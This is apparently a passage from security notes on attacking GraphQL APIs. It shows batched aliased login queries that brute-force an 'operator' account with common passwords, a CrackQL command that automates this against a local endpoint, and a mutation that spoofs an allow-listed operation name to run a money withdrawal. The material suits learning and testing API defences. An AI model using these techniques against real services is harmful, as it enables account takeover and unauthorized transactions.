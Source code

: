 ```bash
    }
    alias6: login(username: "operator", password: "operator"){
    {
        accessToken
    }
    alias7: login(username: "operator", password: "password")
        accessToken
    }
    alias8: login(username: "operator", password: "pass") {
        accessToken
    }
    alias9: login(username: "operator", password: "pass123"){
        accessToken
    }
    alias10: login(username: "operator", password: "password123"){
        accessToken
    }
}
```

* Tools like **CrackQL** can automate this process.

{% code overflow="wrap" %}
```bash
python3 CrackQL.py -t http://localhost:5013/graphql -q sample-queries/login.graphql -i sample-inputs/usernames_and_passwords.csv --verbose
```
{% endcode %}

* **Bypassing Allow-Listed Operation Names**: Attackers can bypass allow lists of operation names by spoofing or changing the operation name.

{% code overflow="wrap" %}
```graphql
# The following is an example of an unauthenticated mutation. As you can see, it would allow a user to register a new user account:
mutation RegisterAccount {
    register(username: "operator", password: "password"){
        user_id
    }
}

-----------------------------------
# An example operation that could bypass authentication by using an allow-listed operation nameWe used the allowed operation name to withdraw money with a withdrawal mutation.

mutation RegisterAccount {
    withdrawal(amount: 100.00, from: "ACT001", dest: "ACT002"){
        confirmationCode
    }
}
```
{% endcode %}
